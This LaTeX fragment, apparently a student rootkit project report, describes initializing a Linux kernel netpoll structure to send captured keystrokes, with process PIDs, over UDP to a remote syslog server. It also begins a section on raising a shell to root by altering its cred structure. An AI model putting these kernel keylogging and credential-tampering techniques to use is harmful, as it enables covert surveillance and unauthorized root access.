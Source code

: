 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
Todo this job, we need to first initialize the netpoll structure with IP address, port number etc. 
before using it to send the keys. 
The \texttt{netpoll} structure looks like this, 

\begin{verbatim}
  struct netpoll {
          struct net_device *dev;
          char dev_name[IFNAMSIZ]; // device name has to be ethernet
          const char *name; 
  
          union inet_addr local_ip, remote_ip;	// Ip addresses in network byte order
          bool ipv6; 
          u16 local_port, remote_port; // some unused local port(eg. 6666) and 
				      //remote_port = 514 (for syslog-ng server)
          u8 remote_mac[ETH_ALEN]; // set to 0xff
  
          struct work_struct cleanup_work;
  };
\end{verbatim}

Once the structre is initialized, we call,
\begin{verbatim}
int netpoll_setup(struct netpoll *);
\end{verbatim} 

This function sets up everything needed for sending the keys. Now we need take the input keys, 
add the pid information of the terminal and send the keys using \texttt{netpoll\_send\_UDP} which looks like,

\begin{verbatim}
netpoll_send_UDP(np, sned_buf, send_len); 
\end{verbatim}

\texttt{Getting the PID information}: This was quite simple, as the \texttt{current} macro was quite handy in this situation.
\texttt{current} macro points to the \texttt{task\_struct} of the currently executing process. 
\texttt{task\_struct} has the \texttt{pid} member
. 

\texttt{Setting up syslog-ng server}: TODO: gmc 

\subsection{Privilege escalation}
To give the root privilages to any shell, we have to hack the credentials of the perticular shell and 
manipulate them. There is a structure called \texttt{cred}: 
It holds the credentials of the respective process. These credentials are uids and gids. 
There are functions available from Linux kernel, to get these credentials and change them. 
\end{document}
